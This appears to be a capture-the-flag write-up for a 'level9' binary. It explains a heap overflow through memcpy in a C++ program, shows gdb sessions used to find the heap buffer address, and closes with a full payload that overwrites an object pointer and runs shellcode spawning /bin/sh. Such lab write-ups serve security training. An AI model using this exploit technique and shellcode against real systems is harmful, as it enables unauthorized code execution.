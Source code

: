 We start by opening the the file in [dogbolt](https://dogbolt.org/).
It is a cpp file that use `new` and `memcpy` so we know that we will overflow on the heap

In this file there is 3 interesting thing :
- We see that new have a fix size of 6C => 108
- There is two `new` : `v3` == `v6` and `v4`. Where `v4` is allocated just after `v6` in the heap.
- In `N::setAnnotation` there is a `memcpy` that copy `argv[1]` in `v6` at the address `this + 4`

So what are we going to do : 
In the return of main has a double dereferenced call of `v4`.
Since  `v4` is just after `v6` in the heap and that we can write in `v6` in an insecure way, we can use `v6` to overwrite `v4` with a custom address.
Here is what we are going to do: We will put on `v4` on address pointing on an address pointing on our `shellcode`
The shellcode will be contained in our input.

Finding the address of our input in the heap:
We start the program and go after the `N::setAnnotation` (the `memcpy` is in it)

```Shell
(gdb) start AAAA
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Temporary breakpoint 4 at 0x80485f8
Starting program: /home/user/level9/level9 AAAA
(gdb) ni 29
(gdb) disas main
Dump of assembler code for function main:
   ...
   0x0804866c <+120>:   mov    %eax,0x4(%esp)
   0x08048670 <+124>:   mov    0x14(%esp),%eax
   0x08048674 <+128>:   mov    %eax,(%esp)
   0x08048677 <+131>:   call   0x804870e <_ZN1N13setAnnotationEPc>
=> 0x0804867c <+136>:   mov    0x10(%esp),%eax
   0x08048680 <+140>:   mov    (%eax),%eax
   ...
```

We search the heap to find our value and we found `0x804a00c` the address on the heap
```Shell
(gdb) i proc map
process 5525
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /home/user/level9/level9
         0x8049000  0x804a000     0x1000        0x0 /home/user/level9/level9
         0x804a000  0x806b000    0x21000        0x0 [heap]
        0xb7cfa000 0xb7cfc000     0x2000        0x0 
        0xb7cfc000 0xb7d18000    0x1c000        0x0 /lib/i386-linux-gnu/libgcc_s.so.1
        0xb7d18000 0xb7d19000     0x1000    0x1b000 /lib/i386-linux-gnu/libgcc_s.so.1
        0xb7d19000 0xb7d1a000     0x1000    0x1c000 /lib/i386-linux-gnu/libgcc_s.so.1
        0xb7d1a000 0xb7d44000    0x2a000        0x0 /lib/i386-linux-gnu/libm-2.15.so
        0xb7d44000 0xb7d45000     0x1000    0x29000 /lib/i386-linux-gnu/libm-2.15.so
        0xb7d45000 0xb7d46000     0x1000    0x2a000 /lib/i386-linux-gnu/libm-2.15.so
        0xb7d46000 0xb7d47000     0x1000        0x0 
        0xb7d47000 0xb7eea000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
        0xb7eea000 0xb7eec000     0x2000   0x1a3000 /lib/i386-linux-gnu/libc-2.15.so
        0xb7eec000 0xb7eed000     0x1000   0x1a5000 /lib/i386-linux-gnu/libc-2.15.so
        0xb7eed000 0xb7ef0000     0x3000        0x0 
        0xb7ef0000 0xb7fc8000    0xd8000        0x0 /usr/lib/i386-linux-gnu/libstdc++.so.6.0.16
        0xb7fc8000 0xb7fc9000     0x1000    0xd8000 /usr/lib/i386-linux-gnu/libstdc++.so.6.0.16
        0xb7fc9000 0xb7fcd000     0x4000    0xd8000 /usr/lib/i386-linux-gnu/libstdc++.so.6.0.16
        0xb7fcd000 0xb7fce000     0x1000    0xdc000 /usr/lib/i386-linux-gnu/libstdc++.so.6.0.16
        0xb7fce000 0xb7fd5000     0x7000        0x0 
        0xb7fdb000 0xb7fdd000     0x2000        0x0 
        0xb7fdd000 0xb7fde000     0x1000        0x0 [vdso]
        0xb7fde000 0xb7ffe000    0x20000        0x0 /lib/i386-linux-gnu/ld-2.15.so
        0xb7ffe000 0xb7fff000     0x1000    0x1f000 /lib/i386-linux-gnu/ld-2.15.so
        0xb7fff000 0xb8000000     0x1000    0x20000 /lib/i386-linux-gnu/ld-2.15.so
        0xbffdf000 0xc0000000    0x21000        0x0 [stack]
```

We can the start and the end of the heap at this line:
`0x804a000  0x806b000    0x21000        0x0 [heap]`
Where `0x804a000` is the starting address and `0x806b000` is the first that address doesn't belong to the heap anymore. (It's like a index where you have to : array[len(array) - 1] to access the last element)
So address end of the heap - 1 : `0x806b000` - 1 => `0x806afff`

```Shell
(gdb) find 0x804a000, 0x806afff, "AAAA"
0x804a00c
1 pattern found.
```

Know we have to launch `/bin/sh` with a shellcode
To accommodate the double dereferencement we will overwrite the address of `v4` with the address of the beginning of our heap buffer.
At the start of our input we will put another address pointing to the shellcode :
[address of input + 4(sizeof this address)][shellcode][padding][address of input(this overwrite `v4`)]
address of the input in the heap : 0x804a00c
in little endian : \x0c\xa0\x04\x08
address of the shellcode (input + 4) : 0x804a00c + 0x4 = 804A010
in little endian : \x10\xa0\x04\x08

The [shellcode](https://shell-storm.org/shellcode/files/shellcode-811.html) we will be using is : `\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80`

```Shell
./level9 $(python -c 'print"\x10\xa0\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * 76 + "\x0c\xa0\x04\x08"')
```
